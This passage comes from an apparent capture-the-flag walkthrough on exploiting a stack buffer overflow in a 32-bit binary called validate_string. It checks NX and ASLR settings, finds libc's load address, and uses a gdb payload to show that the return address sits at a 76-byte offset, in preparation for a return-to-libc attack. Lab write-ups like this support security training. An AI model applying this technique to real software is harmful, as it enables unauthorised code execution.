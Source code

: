    It is a 32-bit Intel (i386) binary, and has the `NX` (no-execute) flag
   enabled. Thus, CPU opcodes pushed directly to the stack *cannot* be
   executed. So, a "naive" buffer overflow shell script will not work. Instead,
   we'll have to push crafted "return addresses" to the stack to functions that
   already exist in *executable* sections of the binary in the program's
   address space.

8. Check the host machine's process address space randomization setting
   (an additional security option that may prevent predicting viable return
   addresses within the process address space):

```bash
cat /proc/sys/kernel/randomize_va_space
```

   Luckily, address space randomization is turned off, so we can use the
   nominal address and offset values gleaned from the binary and its linked
   libraries.

   Another interesting piece of information is the address at which the system
   library is linked into the `validate_string` process during execution:

```bash
ldd /usr/sbin/validate_string 
   linux-gate.so.1 (0xf7fc7000)
   libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7c00000)
   /lib/ld-linux.so.2 (0xf7fc9000)
```

   The system library (`/lib/i386-linux-gnu/libc.so.6`) is linked into the
   process virtual address space at address `0xf7c00000`.

9. The challenge guide tells us that `validate_string` might suffer from a
   buffer overflow vulnerability. In this step, we test that with varying
   amounts of input. After some trial and error, realize the buffer is likely
   64 bytes in size, and the on-stack caller return address is located at a
   76-byte offset from the start of the vulnerable  buffer:

```bash
gdb -q --args /usr/sbin/validate_string $(python2 -c 'print "A"*76 + "\xef\xbe\xad\xde"')
   Reading symbols from /usr/sbin/validate_string...
   (No debugging symbols found in /usr/sbin/validate_string)
   (gdb) r
   Starting program: /usr/sbin/validate_string AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
   AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ�
   [Thread debugging using libthread_db enabled]
   Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
   validated string: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
   AAAAAAAAAAAAAAAAAAﾭ�

   Program received signal SIGSEGV, Segmentation fault.
   0xdeadbeef in ?? ()
```

   Writing `\xef\xbe\xad\xde` at 76 bytes past the beginning of the buffer
   causes the program to attempt to "return" to our fake `0xdeadbeef`address
   (remember that Intel is a Little-Endian architecture). The segfault occurs
   because no actual memory is mapped into the process virtual address space
   at that location, so "returning" there to execute CPU opcodes is not viable.
